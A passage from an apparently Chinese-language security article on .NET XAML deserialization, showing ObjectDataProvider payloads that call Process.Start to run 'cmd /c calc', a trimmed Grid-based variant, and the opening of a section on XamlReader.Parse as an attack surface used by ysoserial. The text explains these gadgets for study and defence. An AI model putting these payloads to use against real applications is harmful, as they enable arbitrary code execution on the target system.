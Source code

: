 ```xml
<ResourceDictionary>
    <ResourceDictionary.MergedDictionaries>
        <ResourceDictionary Source="Dic1.xaml"/>
        <ResourceDictionary Source="Dic2.xaml"/>
    </ResourceDictionary.MergedDictionaries>
 </ResourceDictionary>
```

如果在顶层容器里没有找到 Window.Resources，程序还会继续上升到 Application.Resources 去寻找资源，所以我们把恶意代码引入到 Application.Resources 也可以被调用运行。结合 XmlSerialize 反序列化给出的 Payload 看一下 XAML，是不是感觉容易多了？

```xml
<![CDATA[
<ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml"
xmlns:b="clr-namespace:System;assembly=mscorlib"
xmlns:c="clr-namespace:System.Diagnostics;assembly=system">
    <ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" MethodName="Start">
        <ObjectDataProvider.MethodParameters>
            <b:String>cmd</b:String>
            <b:String>/c calc</b:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
</ResourceDictionary>]]>
```

clr-namespace:System.Diagnostics 程序集是必须的，需要靠它调用 Process 类启动新进程。但还可以进一步简化，clr-namespace:System 因为不是必须的所以对应的名称空间 xmlns:b 可以不用，MethodParameters 也就无需再使用`<b:String>`元素，另外`<ResourceDictionary>`也可以用`<Window.Resources>` 或者 `<Application.Resources>` 、`<Grid>`控件去替代，代码如下

```xml
<Grid xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml"
xmlns:c="clr-namespace:System.Diagnostics;assembly=system">
    <Grid.Resources>
        <ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" MethodName="Start">
            <ObjectDataProvider.MethodParameters>calc</ObjectDataProvider.MethodParameters>
        </ObjectDataProvider>
    </Grid.Resources>
</Grid>
```

## 0x05 攻击面

### XamlReader.Parse

ysoserial 在 XmlSerializer 反序列化链中使用 XamlReader.Parse 解析 XAML 字符串并返回新对象， 转到定义可见有 2 个方法重载，官方文档有如下注明

> Reads the XAML input in the specified text string and returns an object that corresponds to the root of the specified markup.

![](https://img1.dotnet9.com/2022/05/5907.png)
